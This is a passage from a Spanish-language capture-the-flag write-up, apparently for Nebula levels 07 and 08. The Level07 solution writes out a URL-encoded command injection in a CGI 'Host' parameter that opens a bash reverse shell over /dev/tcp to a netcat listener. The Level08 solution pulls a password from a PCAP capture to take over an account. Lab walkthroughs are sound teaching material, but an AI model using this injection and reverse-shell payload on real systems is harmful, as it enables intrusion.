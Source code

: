 
----


## Solution

----


El código en si, nos da unas pistas interesantes. Básicamente el parámetro `$host`, determina la dirección en como el programa se va a comportar, por lo que después de preparar la ejecución vía nc y printf, podemos ingresar comandos en este argumento:

```
$ tmux
1$ nc -nvlp 3001
2$ printf 'GET /index.cgi?Host=%3Bbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F3001%200%3E%261' | nc 127.0.0.1 7007
1# getflag
```
---


## Level08

----


Para level08, debemos buscar en la carpeta */home/flag08* por archivos que nos permitan hacernos de la cuenta de flag08. Como recomendación, nos dicen que busquemos por archivos que cualquier usuario puede leer.

----


## Solution

----


En el nivel08, tenemos el retorno de carpetas que cualquiera puede escribir. Encontramos un archivo PCAP que podemos afortunadamente leer, por lo que usamos `tcpdump -r` para que nos despliegue el contenido. Explorando el contenido de los paquetes encontraremos el string "Password:" seguido de varios caracteres que 1-1 iremos reestructurando hasta tener "backd00Rmate", el cual es la password del usuario flag08:

```
$ su - flag08
Password: backd00Rmate
# getflag
```

Para este nivel como pudimos ver, es indispensable estar observando la tabla ascii y detectar muy bien la ubicación del byte dentro del paquete donde esta el texto.

---
